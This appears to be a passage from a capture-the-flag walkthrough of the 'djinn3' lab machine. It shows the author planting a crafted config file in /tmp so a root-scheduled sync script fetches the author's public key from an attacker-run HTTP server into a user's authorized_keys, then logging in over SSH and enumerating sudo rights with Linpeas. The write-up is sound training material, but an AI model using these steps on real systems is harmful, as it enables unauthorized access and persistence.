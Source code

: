 Analyzing the source files we can assume that there's a cron job running by the user saint that executes `Syncer.py` and the comment in the source file confirms it.

We are a little short on details but here is what we know:
* there is a cronjob that executes `syncer.py`
* The program lists all \*.config.json files in `/tmp` directory
* The program will look for the most recent file which name is based on the date format and copy the content of the file indicated by the `URL` in the json file to the location indicated by `OUTPUT` by the same file

So I created this json file with the current date and uploaded it to the `/tmp` directory on the victim machine:

```
┌──(root💀kali)-[~/.ssh]
└─# nano 29-07-2022.config.json
                                                                                                                                                                                                                                             
┌──(root💀kali)-[~/.ssh]
└─# cat 29-07-2022.config.json     
{
    "URL": "http://192.168.49.124:8000/id_rsa.pub",
    "Output": "/home/saint/.ssh/authorized_keys"
}
```
I started an http server and waited for a connection:

```
┌──(root💀kali)-[~/.ssh]
└─# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.124.102 - - [29/Jul/2022 15:03:33] "GET /29-07-2022.config.json HTTP/1.1" 200 -
```
Now that our Id_rsa is in the authorized_keys we can SSH to the Victim machine as the user `saint`

```
┌──(root💀kali)-[~/.ssh]
└─# ssh saint@192.168.124.102

saint@djinn3:~$
```

I used Linpeas to enumerate this user and found out that `saint` can use the command `adduser` as root:
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                                                                                                                  
Matching Defaults entries for saint on djinn3:                                                                                                                                                                                               
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saint may run the following commands on djinn3:
    (root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin
```
